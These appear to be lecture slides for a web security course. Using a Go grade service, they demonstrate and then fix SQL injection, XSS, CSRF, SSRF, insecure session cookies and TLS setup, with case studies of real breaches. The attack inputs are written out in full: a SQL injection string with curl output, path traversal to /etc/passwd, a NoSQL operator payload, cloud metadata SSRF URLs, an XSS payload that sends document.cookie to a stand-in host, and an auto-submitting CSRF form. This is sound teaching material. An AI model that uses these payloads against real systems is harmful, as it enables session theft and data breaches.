








Lecture 5 ended with data crossing into control on one host. Here the data comes from every stranger on the internet. And lecture 4's grade service still sends its password with every request: this lecture gives it a database, a session and HTTPS.
https://grades.example

The top branch breaks your server. The bottom one breaks nothing on it.
Never mix data with code.
The grade service moves into SQLite and gets one new handler: a student reads their own grade in one course. It builds the query by concatenation:
course := r.FormValue("course")
query := "SELECT student, course, grade FROM grades" +
" WHERE student = '" + user + "' AND course = '" + course + "'"
rows, err := db.Query(query)
user comes from the login, so it is safe.
What happens when course is
x' OR '1'='1?
$ curl -u 4001:tulip-river-42 'localhost:8080/grades?course=IS'
4001 IS 12
$ curl -u 4001:tulip-river-42 -G localhost:8080/grades \
--data-urlencode "course=x' OR '1'='1"
4001 IS 12
4002 IS 17
4001 IE 15
4002 IE 19
student = '4001' — was in the query.
The input removed it

The database behaved correctly. By the time it sees the string, nothing records which characters came from you.
rows, err := db.Query("SELECT student, course, grade FROM grades"+
" WHERE student = ? AND course = ?", user, course)
$ curl -u 4001:tulip-river-42 'localhost:8080/grades?course=IS'
4001 IS 12
$ curl -u 4001:tulip-river-42 -G localhost:8080/grades \
--data-urlencode "course=x' OR '1'='1"
x' OR '1'='1. The value was compared, not
parsed
You cannot prepare the queries of a page you forgot you run.
Source: UK ICO, TalkTalk cyber attack: how the ICO investigation unfolded
sh -c. Pass an argument vector, never a string
../../etc/passwd. Resolve, then check the
result is still under the root
{"password": {"$ne": null}}
Content-Type header is evaluated as an
OGNL expression — Struts' own expression
language — and runs commands on the server
course, one framework down
Source: US House Committee on Oversight, The Equifax Data Breach (2018)
OWASP's number one since 2021, and it needs no injection at all — just a changed number.
GET /api/invoices/1041 → your invoice
GET /api/invoices/1042 → someone else's invoice
WHERE id = ? AND owner_id = ?. Then forgetting it returns
nothing instead of returning someone's data. The grade service did this
— and injection deleted it, so it needs both fixes
api.www.optus.com.au
Source: CSO Online, Optus breach occurred due to a coding error, alleges ACMA (2024)
http://169.254.169.254/ — the cloud metadata service,
and often the credentials with it
http://localhost:6379/ — the admin port with no auth

169.254.169.254,
and a role that does only its job. AWS later added IMDSv2, which a
simple relayed request cannot use
Sources: KrebsOnSecurity, What we can learn from the Capital One hack; Capital One, 2019 cyber incident
### three logins against a hand-rolled generator ###
Set-Cookie: session=sess-1; Path=/
Set-Cookie: session=sess-2; Path=/
Set-Cookie: session=sess-3; Path=/
### three logins against crypto/rand ###
Set-Cookie: session=o2d9gnBGHyvvd0vFCQYvVA; Path=/; HttpOnly; Secure; SameSite=Lax
Set-Cookie: session=YDmu9RDLwkgzBI8l3LxmWA; Path=/; HttpOnly; Secure; SameSite=Lax
Set-Cookie: session=1nEDix88iEUq4gQ16crT6A; Path=/; HttpOnly; Secure; SameSite=Lax
sess-4, and now try
sess-3
Referer header sent to other
sites
| HttpOnly | Script on the page cannot read it — XSS, next section, cannot simply steal it |
| Secure | Sent over HTTPS only — never in the clear, not even once |
| SameSite | Not attached to requests another site starts — the CSRF defence, next section |
| Path / Domain | Narrow the scope. Do not widen it to the parent domain casually |
| __Host- prefix | The browser enforces Secure, no Domain, and Path=/ — a subdomain cannot overwrite it |
HttpOnly blocks script access. It does nothing about
the network — that is what Secure is for.
Secure, and HTTPS for the whole session, not just
the login form. The grade service's cookie is about to be
Secure; HTTPS is the last section
Source: Eric Butler, Firesheep (2010)
// POST /login checks the password once and hands out a session
func newSession(w http.ResponseWriter, r *http.Request) {
name, pass := r.FormValue("name"), r.FormValue("password")
err := bcrypt.CompareHashAndPassword([]byte(users[name]), []byte(pass))
if err != nil {
log.Printf("FAILED login as %q", name) // the name, never the password
http.Error(w, "login first", http.StatusUnauthorized)
return
}
id := rand.Text() // at least 128 bits from the OS, new at every login
sessions.Store(id, name)
http.SetCookie(w, &http.Cookie{Name: "__Host-session", Value: id, Path: "/",
HttpOnly: true, Secure: true, SameSite: http.SameSiteLaxMode})
fmt.Fprintf(w, "hello %s\n", name)
}
login now looks the cookie up in sessions; the
role check from lecture 1 is unchanged.
$ curl -c cookies.txt -D - -d name=parham \
-d 'password=correct horse battery staple' localhost:8080/login
HTTP/1.1 200 OK
Set-Cookie: __Host-session=ZPZEYLRFJ3QRO2ZSQBGLV33BOF; Path=/; HttpOnly; Secure; SameSite=Lax
Date: Wed, 14 Oct 2026 07:59:04 GMT
Content-Length: 13
Content-Type: text/plain; charset=utf-8
hello parham
$ curl -b cookies.txt -d 'id=4002&grade=18' localhost:8080/grade
4002 is now 18
localhost as a secure origin, so
Secure works here without TLS. Anywhere else it needs HTTPS
— the last section
$ cp cookies.txt stolen.txt
$ curl -b cookies.txt -c cookies.txt -X POST localhost:8080/logout
$ curl -b stolen.txt -d 'id=4002&grade=20' localhost:8080/grade
login first
$ cat server.log
2026/10/14 09:59:04 grade 4002=18 by parham
stolen.txt still holds the identifier. The
server deleted what it pointed to, so it is
worth nothing
The browser now sends this cookie on every request to the grade service — including requests that another site starts.
The Golden Rule again, in the user's browser: the interpreter is the browser, and the injected code is JavaScript running on your origin, next to the session.
// a comment box that renders whatever was posted
element.innerHTML = "<p>" + comment + "</p>";
A comment of
<img src=x onerror="fetch('//evil/'+document.cookie)">
now runs in every visitor's session.

javascript and
innerHTML. The worm wrote java, a line break,
script, and built the rest with eval
A filter of bad words loses to string concatenation.
Source: Samy Kamkar, Technical explanation of the MySpace worm
textContent, never innerHTML. A modern
framework does this by default, and the danger is the escape hatch
(dangerouslySetInnerHTML, v-html)

BAways.com: card and CVV for about 244,000 customers. UK
ICO fine: £20 million
evil.example can submit a form to your bank,
and the browser will authenticate it for the attacker
<form action="https://bank.example/transfer" method="POST">
<input name="to" value="attacker">
<input name="amount" value="1000">
</form>
<script>document.forms[0].submit()</script>
The attacker never sees the response. They do not need to — the transfer already happened.

Drawn without SameSite. Every check passes: the request
really carries the instructor's session — only the intent is forged.
Lax; not every browser does, so
set it yourself
<img> tag is an attack

frame-ancestors in
CSP
?next=
pointing anywhere. Turns your domain into a credible phishing link.
Allow-list the destinations
Every defence so far assumes nobody reads the cookie on its way. On the lab wifi, somebody does.
The grade service still sends the password, then the cookie, in the clear. TLS gives the channel three things:
Note what is not on the list:

Fresh key shares every time — Diffie–Hellman from lecture 3 — so a recording is useless later. TLS 1.3 also removed every legacy cipher.
$ openssl req -x509 -newkey rsa:2048 -nodes -keyout key.pem \
-out cert.pem -days 1 -subj "/CN=lecture.local"
$ openssl x509 -in cert.pem -noout -subject -issuer
subject=CN=lecture.local
issuer=CN=lecture.local <-- it signed itself
$ openssl s_client -connect 127.0.0.1:8443 -verify_return_error
verify error:num=18:self-signed certificate
Verification error: self-signed certificate
The cryptography is perfect. The trust is missing — nothing vouches for the name.
New, TLSv1.3, Cipher is TLS_AES_256_GCM_SHA384
Protocol: TLSv1.3
Server public key is 2048 bit
Peer signature type: rsa_pss_rsae_sha256
Verification error: self-signed certificate
InsecureSkipVerify and curl -k in
production code are a finding, not a convenience
Source: US-CERT Alert TA15-051A, Lenovo Superfish adware vulnerable to HTTPS spoofing
log.Fatal(http.ListenAndServeTLS("localhost:8080", "cert.pem", "key.pem", nil))
$ openssl req -x509 -newkey ec -pkeyopt ec_paramgen_curve:P-256 \
-nodes -keyout key.pem -out cert.pem -days 1 \
-subj /CN=localhost -addext subjectAltName=DNS:localhost
-----
$ curl -d name=parham -d 'password=correct horse battery staple' \
http://localhost:8080/login
Client sent an HTTP request to an HTTPS server.
$ curl --cacert cert.pem -d name=parham \
-d 'password=correct horse battery staple' https://localhost:8080/login
hello parham
--cacert trusts this one certificate, for this one name.
-k would also connect — to anyone
http:// script on an HTTPS page hands the whole page back
to the network
user and course are both
concatenated. Why is only course a hole — and why is the
fix not better escaping?
HttpOnly. Can an XSS bug on
its origin still change a grade?
evil.example posts a grade change. Which
attribute stops it, and what must be true of every GET?
curl -k connects with AES-256-GCM. Why is that connection
still worthless?
HttpOnly, Secure and
SameSite, and delete it on the server at logout
Next: the layer underneath — what the network itself can be made to do, and how zoning, firewalls and VPNs draw the boundaries.